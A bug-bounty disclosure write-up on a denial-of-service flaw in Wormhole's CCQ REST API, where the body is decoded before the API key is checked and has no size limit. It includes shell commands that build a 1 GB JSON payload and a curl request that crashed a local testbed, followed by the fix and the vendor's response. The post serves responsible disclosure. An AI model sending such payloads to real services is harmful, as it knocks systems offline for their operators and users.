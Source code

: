 ```yaml
---
weight: 1
title: "Taking down Wormhole's CCQ service through REST API"
date: 2023-10-24
tags: ["Wormhole", "CCQ", "DoS", "immunefi"]
draft: true
author: "fadam"
authorLink: ""
description: "Taking down Wormhole's CCQ service through REST API"
images: []
categories: ["Web2"]
lightgallery: true
resources:
  - name: "featured-image-preview"
    src: "templatebloggraphqldos.png"

toc:
  auto: false
---
```


## Introduction

As part of my Bug Bounty journey, I like to monitor my favorite programs on Github. Checking their latest Pull Requests/commits allow me to know what they are working on, and to get an insight of where security issues could arise. \
In this article, I will describe how I was able to find an issue within a new product (CCQ) of Wormhole. \
Because I was monitoring the project closely, I found the issue soon after it was pushed on the main branch, and before it was pushed on the Guardians nodes. \
The following sections are taken from the Immunefi report. I would like to thank the Wormhole's team for allowing me to post and for their professionalism.

## Bug Description
The tests were performed on the commit: [6c3ff43d6a416abce680e77ce81a9f613ba27075](https://github.com/wormhole-foundation/wormhole/commit/6c3ff43d6a416abce680e77ce81a9f613ba27075) \
Wormhole has implemented a new feature: [Cross-Chain Queries](https://github.com/wormhole-foundation/wormhole/blob/main/whitepapers/0013_ccq.md) which includes a REST API :
> a separate REST server is being provided to accept off-chain query requests

Also the feature is designed to work off-chain only (p2p, API) in the initial deployment:
> The initial release of CCQ will not support on chain requests.

There are two issues regarding the REST API.
The function handleQuery() within [http.go](https://github.com/wormhole-foundation/wormhole/blob/6c3ff43d6a416abce680e77ce81a9f613ba27075/node/cmd/ccq/http.go#L40) :
1. Checks authentication **after** decoding the payload:
```golang
var q queryRequest
err := json.NewDecoder(r.Body).Decode(&q)
(...)
apiKey, exists := r.Header["X-Api-Key"]
if !exists || len(apiKey) != 1 {
	s.logger.Debug("received a request without an api key", zap.Stringer("url", r.URL), zap.Error(err))
	http.Error(w, "api key is missing", http.StatusBadRequest)
	return
}
```

2. Does **not limit the size** of the POST payload.

In consequence, an attacker can craft an arbitrary curl request containing 1Gb of hexadecimal payload.
This will cause the server to decode the body for a very long time, leading to very high increase in RAM, and increase of CPU.
On my testbed, it led to container restarting due to lack of resources.

## POC
First of all, we need to recreate a little Wormhole environment with Tilt.
```bash
git clone https://github.com/wormhole-foundation/wormhole/
cd wormhole
make node
minikube start --cpus=8 --memory=24G --disk-size=100G --driver=docker
tilt up
```

Then we need to modify the Tilt file so we can access the CCQ feature, please refer to the following [Tilt file](https://gist.github.com/0xfadam/4ba10f032d3d2530f5f28556285248a6)

To create the 1 Gb payload that will crash the service :
```bash
echo -ne '{"data" : "' >> json_payload.json
dd if=/dev/urandom bs=1M count=1024| xxd -p -c 1024 >> json_payload.json
echo -ne '"}' >> json_payload.json
tr -d "\n" <  json_payload.json > final_payload.json
rm  json_payload.json
```

To perform the attack : 
```bash
curl -X POST -H "Content-Type: application/json" -T final_payload.json http://guardian:8996/v1/query
```

A video PoC (with 2 videos) demonstrates the impact:
1. https://drive.google.com/file/d/1vvzbUr-ucuVWthf7K57eiiHGFoqf9x-O/view?usp=sharing
2. https://drive.google.com/file/d/1vwDj27H4Y97vbOMvzJVzKxgdbz08mNzz/view?usp=sharing

The PoC is running on a I7 server (16CPU) + 32 Gb RAM, and only one curl is used. \
On the second video, at 5.22, the server reaches maximum RAM and container restarts.

Only 2/3 requests were used. The purpose of using a small amount of requests was to demonstrate that the issue was not **network-related** , but **application-related**.

## Recommendation
1. The first part of the fix is to check the authentication before processing the JSON payload.
```golang
	// There should be one and only one API key in the header.
	apiKeys, exists := r.Header["X-Api-Key"]
(...)
	var q queryRequest
	err := json.NewDecoder(http.MaxBytesReader(w, r.Body, MAX_BODY_SIZE)).Decode(&q)
	if err != nil {
		s.logger.Debug("failed to decode body", zap.Error(err))
		http.Error(w, err.Error(), http.StatusBadRequest)
		return
	}
```

2. Additionnally, a control over the payload size is now performed, ensuring it does not exceed 5Mb.
```golang
const MAX_BODY_SIZE = 5 * 1024 * 1024
(...)
err := json.NewDecoder(http.MaxBytesReader(w, r.Body, MAX_BODY_SIZE)).Decode(&q)
```
## Wormhole response
CCQ service exists outside of the Guardians, on different servers. \
This is by design to ensure minimal running services are on the node that contains the guardian signing and identity (p2p) keys. \
Therefore, impacting CCQ could have not caused a Denial of Service on the Guardians. \
Also, it is expected that Guardians operators will protect the CCQ feature behind a reverse-proxy and other security equipments.

With that being said, Wormhole has been very proactive and has fixed the issue **on the same day** of the report, through the [PR 3443](https://github.com/wormhole-foundation/wormhole/pull/3443).

